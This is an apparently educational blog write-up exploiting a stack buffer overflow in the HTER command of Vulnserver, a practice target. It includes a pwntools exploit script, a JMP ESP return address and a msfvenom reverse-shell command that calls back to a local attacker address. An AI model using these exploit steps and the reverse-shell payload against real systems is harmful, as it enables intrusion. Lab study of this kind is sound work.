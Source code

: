 ```yaml
---
layout: post
title: Vulnserver&colon; Buffer overflow in HTER command with a small obstacle
---
```

We are back from a vacation and it's time to keep going with the Vulnserver series of posts. In this post we are going to exploit the crash found in the HTER command of Vulnserver. And important note to make before starting is that this post is going to be shorter than the previous one since I'm going to skip the steps that we have already seen.

# Analyzing the crash
In this case the registers in Immunity Debugger looked like in the image below after the crash.

![]({{ site.baseurl }}/images/3/immunitydbg1.PNG)

![]({{ site.baseurl }}/images/3/immunitydbg2.PNG)

We can see that we have overwrote EIP and produced a crash, but there's something peculiar about the value in EIP. The command that caused the crash was the following:

```c
HTER AAAAAAAAAAAAAAAAAAA... //There's supposed to be 5000 As here
```

So with that command we expect EIP to be equal to 41414141 but instead it's AAAAAAAA so that makes us think that the target is interpreting our input as hex. This means that from now own we should feed the string representation of the hex values we want to use.

So instead of generating a De Brujin pattern like we normally do, we modify the alphabet used to respect the constraints.

```bash
$ cyclic -a "123456789ABCDEF" 5000
```

After the crash we can simply check the offset using the command again but we have to take into account the endianness and that we are using the string representation of the hex values so with the following crash:

![]({{ site.baseurl }}/images/3/immunitydbg3.PNG)

We see that it crashed at EIP 0xC137B137, if we reverse the endianness we obtain 0x37B137C1 and since we are looking at the string representation we should search for the first for character "37B1".

```bash
$ cyclic -a "123456789ABCDEF" -l "37B1"
2046
```

So we obtained our EIP offset that we can check with a python script like the following:

```python
from pwn import *

# IP and port of the target (Vulnserver).
ip = "192.168.1.128"
port = 9999

cmd= "HTER "
offset_eip = 2046
# Note that we have to take into account the endianness in EIP too.
eip = "BEBAFECA" # EIP = 0xCAFEBABE

# Create our payload.
payload = fit({
    0:cmd,
    offset_eip:eip,
    },length=5000,filler=de_bruijn(alphabet="123456789ABCDEF"))

io = remote(ip,port)
io.readline()
io.sendline(payload)
```

And it's confirmed in Immunity Debugger:

![]({{ site.baseurl }}/images/3/immunitydbg4.PNG)

# Exploiting
After all of that exploitation is pretty straight forward. First of all, we find an address that has the command JMP ESP to execute our shellcode in the stack. For that we just use the command jmp available in the Mona plugin for Immunity Debugger.

![]({{ site.baseurl }}/images/3/immunitydbg5.PNG)

We can use the first address shown 0x625011af which is part of essfunc.dll and has ASLR disabled.

After that we simple need some shellcode which we can generate with msfvenom.

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.139 LPORT=443 EXITFUNC=thread -f hex -b "\x00\x0a"
```

Remember that we have to use the string representation so that's why we choose the hex format here.

Now all that's left is to put everything together in our exploit.

```python
from pwn import *

# IP and port of the target (Vulnserver).
ip = "192.168.1.128"
port = 9999

cmd= "HTER "
offset_eip = 2046
# Note that we have to take into account the endianness in EIP too.
eip = "AF115062" # Address of instruction we want to run (Ex. jmp esp).

# Here we put the shellcode we want to execute.
offset_sc = offset_eip + 8
shellcode = "90"*16
shellcode += "dac0d9742..." # Cut for brevity.

# Create our payload.
payload = fit({
    0:cmd,
    offset_eip:eip,
    offset_sc:shellcode
    },length=5000,filler=de_bruijn(alphabet="123456789ABCDEF"))

io = remote(ip,port)
io.readline()
io.sendline(payload)
```

And that's it, a buffer overflow very similar to the previous one that adds some constraints which allowed us to learn a few tricks.

See you guys in the next post.